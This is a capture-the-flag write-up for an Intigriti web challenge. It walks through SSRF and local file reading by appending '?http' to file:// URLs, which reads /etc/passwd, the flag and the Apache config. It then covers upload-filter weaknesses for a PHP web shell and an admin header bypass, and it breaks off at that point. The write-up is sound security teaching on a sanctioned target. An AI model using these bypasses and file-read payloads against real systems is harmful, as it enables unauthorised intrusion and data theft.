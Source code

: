 Took a short break and got it! Where there's smoke, there's fire.

There was that error message when the port wasn't open.<br>
`https://challenge-1025.intigriti.io/challenge.php?url=http://0177.0000.0000.0001:1234`<br>
gets back `cURL Error: Failed to connect to 127.0.0.1 port 1234 after 0 ms: Could not connect to server`

Ahhhhh! Where cURL is used, other protocols such as `gopher://`, `file://`, etc. are not far behind.<br>
BUT we must use `http` protocol. Do we really have?<br>
Remember the first error response! `Invalid URL: must include 'http'`<br>
`must include` - Is that what I think it is? What about http **somewhere** in url?

The PHP file is checking the existence of “protocol”, but at any place.<br>
YEAH!!!! it WORKS , we pass the `http` as query parameter😊<br>
`https://challenge-1025.intigriti.io/challenge.php?url=file:///etc/passwd?http`<br>
and for root `/` directory `https://challenge-1025.intigriti.io/challenge.php?url=file:///?http`

First we are getting the flag via `https://challenge-1025.intigriti.io/challenge.php?url=file:////flag.txt?http`<br>
--> **INTIGRITI{ngks896sdjvsjnv6383utbgn}**

That was only half the battle, **no RCE yet**. Challenge not done.

Checking all other directories, especially everything around the website<br>
`https://challenge-1025.intigriti.io/challenge.php?url=file:///var/www/html/?http`<br>
and the challenge folder contains an upload PHP file:<br>
`https://challenge-1025.intigriti.io/challenge.php?url=file:///var/www/html/upload_shoppix_images.php?http`

A valid upload is stored in `/var/www/html/uploads/`<br>
But what is "valid"?

The mime type has to be any `image/***`<br>
The file name check checks that it contains `.png` / `.jpg` or `.jpeg`, but not as suffix.<br>

Ohh, someone else was already here?<br>
There are already two files uploaded with a PHP RCE<br>
`hehe2.png.php`<br>
`hehe.png.php`

Enter any OS command you want in input form of `https://challenge-1025.intigriti.io/uploads/hehe2.png.php`

RCE done, but not my own. This is NOT the challenge goal! ;-)

For the sake of completeness, I will now upload my own PHP file with that upload script<br>
`https://challenge-1025.intigriti.io/upload_shoppix_images.php`

**Ohhh..... come on!!!** Direct access to the upload PHP file is not permitted.

Searching the apache2 config and found that special header is required to get access for upload script<br>
`https://challenge-1025.intigriti.io/challenge.php?url=file:///etc/apache2/sites-available/000-default.conf?http`
```
<Files "upload_shoppix_images.php">
		<If "%{HTTP:is-shoppix-admin} != 'true'">
				Require all denied
		</If>
		Require all granted
</Files>
```
Ok, you get your header Is-Shoppix-Admin: true
